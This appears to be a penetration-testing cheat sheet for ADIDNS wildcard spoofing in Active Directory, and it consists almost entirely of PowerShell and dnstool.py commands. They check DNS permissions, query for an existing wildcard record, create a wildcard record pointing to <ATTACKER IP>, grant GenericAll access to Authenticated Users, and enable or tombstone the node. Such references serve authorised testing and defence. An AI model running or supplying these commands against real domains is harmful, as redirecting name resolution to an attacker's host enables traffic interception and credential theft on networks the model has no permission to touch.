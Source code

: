 #### Check ADIDNS permissions
- By default `authenticated users` have the `CreateChild` permissions.
```
Get-ADIDNSPermission

Get-ADIDNSPermission | Where-Object -Property IdentityReference -EQ S-1-5-11 | Where-Object -Property ActiveDirectoryRights -EQ CreateChild
```

#### Check for wildcard record
- The DNS server will use the wildcard record to answer name requests that do not explicitly match records contained in the zone.
- Gives error if it doesn't exist.
```
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord

Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Partition System
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Partition ForestDNSZones
```

```
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '*' --action 'query' <DC IP>
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '*' --action 'query' <DC IP> --legacy
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '*' --action 'query' <DC IP> --forest
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '*' --action 'query' <DC IP> --partition
```

#### Create wildcard record
- By default, replication between sites can take up to three hours.
- Use `-Tombstone` so any authenticated user can perform node modifications
```
New-ADIDNSNode -Node * -Data <ATTACKER IP> -Verbose

New-ADIDNSNode -Node * -Data <ATTACKER IP> -Verbose -Tombstone
```

```
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '*' --action add --data <ATTACKER IP> <DC IP>
```

#### Give other groups permissions to the record
- Optional
```
Grant-ADIDNSPermission -Node * -Principal "Authenticated Users" -Access GenericAll -Verbose
```

#### Enable tombstoned record
```
Enable-ADIDNSNode -Node *
```

#### Tombstone record
```
Disable-ADIDNSNode -Node *
```
